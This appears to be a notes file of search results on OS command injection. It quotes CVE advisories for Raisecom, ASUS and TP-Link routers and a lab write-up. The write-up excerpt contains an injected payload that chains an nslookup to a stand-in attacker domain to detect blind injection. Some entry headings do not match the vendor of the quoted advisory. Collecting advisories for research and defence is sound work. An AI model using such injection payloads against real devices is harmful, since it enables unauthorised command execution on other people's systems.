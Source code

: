 
# DuckDuckgo search -> Xiaomi_OS_Command_injection
`2024-08-09`

* https://nvd.nist.gov/vuln/detail/CVE-2024-7467

<blockquote>
A vulnerability was found in Raisecom MSG1200, MSG2100E, MSG2200 and MSG2300 3.90 and classified as critical. Affected by this issue is the function sslvpn_config_mod of the file /vpn/list_ip_network.php of the component Web Interface. The manipulation of the argument template/stylenum leads to os command injection.
</blockquote>

---

# DuckDuckgo search -> Asus_Remote_arbitrary_Command
`2024-08-09`

* https://www.cvedetails.com/vulnerability-list/vendor_id-3447/Asus.html?page=1&order=1&trc=271&sha=255a2c79f4b0a6ac4cf9eb2935959dee0d44f24c

<blockquote>
CVE-2023-41348. ASUS RT-AX55's authentication-related function has a vulnerability of insufficient filtering of special characters within its code-authentication module. An authenticated remote attacker can exploit this vulnerability to perform a Command Injection attack to execute arbitrary commands, disrupt the system or terminate services.
</blockquote>

---

# DuckDuckgo search -> TP_Link_OS_Command_injection
`2024-08-09`

* https://nvd.nist.gov/vuln/detail/CVE-2020-36178

<blockquote>
oal_ipt_addBridgeIsolationRules on TP-Link TL-WR840N 6_EU_0.9.1_4.16 devices allows OS command injection because a raw string entered from the web interface (an IP address field) is used directly for a call to the system library function (for iptables). NOTE: oal_ipt_addBridgeIsolationRules is not the only function that calls util_execSystem.
</blockquote>

---

# DuckDuckgo search -> Asus_poc_OS_Command_injection
`2024-08-09`

* https://siunam321.github.io/ctf/portswigger-labs/OS-Command-Injection/osci-5/

<blockquote>
With that said, it might be vulnerable to blind OS command injection. We can use an injected command that will trigger an out-of-band network interaction with a system that we control, using OAST techniques. For example: &amp; nslookup kgji2ohoyw.web-attacker.com &amp;. This payload uses the nslookup command to cause a DNS lookup for the specified domain.
</blockquote>

---
